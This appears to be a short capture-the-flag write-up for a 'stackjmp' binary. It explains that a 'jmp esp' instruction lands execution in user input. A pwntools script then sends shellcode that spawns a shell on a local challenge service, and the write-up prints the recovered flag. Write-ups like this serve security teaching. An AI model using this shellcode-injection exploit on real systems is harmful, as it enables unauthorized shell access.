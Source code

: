Executing `stackjmp` you get `segmentation fault` for any input.
Using `gdb` it is possible to see something strange: at line 56 there is a `jmp esp` that makes the program jump to something on the stack.
By testing some input (like 'AAAABBBB...') you notice that it jumps to our input.
So the solution may be to spawn a shell with a `shellcode`

```python
#!/usr/bin/python3
from pwn import *

sc = asm(shellcraft.i386.linux.sh())
conn = remote('localhost', 5008)
conn.sendline(sc)
conn.interactive()
```

and with a simple `cat flag.txt` you get `slntCTF{sh1t_sh311_c0d3}`
